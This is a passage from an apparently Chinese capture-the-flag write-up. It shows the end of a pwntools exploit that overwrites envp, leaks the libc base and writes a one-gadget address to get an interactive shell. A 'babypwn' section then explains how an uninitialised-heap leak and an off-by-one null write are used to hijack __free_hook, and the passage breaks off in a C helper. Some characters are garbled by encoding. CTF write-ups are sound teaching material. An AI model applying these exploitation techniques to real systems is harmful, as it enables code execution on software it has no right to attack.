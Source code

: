 feed_challenge(solution.encode(“utf-8”).ljust(96, b”\x00″) + p16(envp_lo16), newline=False)

log.success(“Overwrote envp.”)

sigfpe()

​

context.log_level = ‘debug’

​

r.recvuntil(“file=libc.so.6 [0];  generating link map”)

r.recvuntil(“base: “)

libc_base = int(r.recvuntil(“  size: “, drop=True), 16)

log.success(f”libc @ `{`libc_base:#x`}`”)

​

addr = libc_base+0x1ED608

​

content = p64(libc_base + 0xe6c7e)

deltastr = p64(addr – 0xADAD000)

assert b”\n” not in deltastr

input(“run”)

r.sendafter(“Where to record error?”, deltastr)

r.sendlineafter(“What error to record?”, content)

r.interactive()

**babypwn**

题目漏洞有两个，一是在add时malloc申请堆块后没有初始化，可以利用堆上的残余数据leak出heap和libc地址，二是在edit中有一个人为造的单字节溢出写零的漏洞。通过第一个漏洞leak地址后，用第二个漏洞修改__free_hook完成ROP即可。

刚开始用open+sendfile读flag和babypwn都没有读到，一度以为是远程ban了sendfile，最后使用execveat get shell，使用bash的一些内置命令拿到了flag

# gcc unhash.c -static -o unhash

#include &lt;stdio.h&gt;

#include &lt;stdlib.h&gt;

#include &lt;string.h&gt;

​

unsigned int hash(unsigned a1) `{`

    for ( int i = 2; i &gt; 0; —i )

  `{`
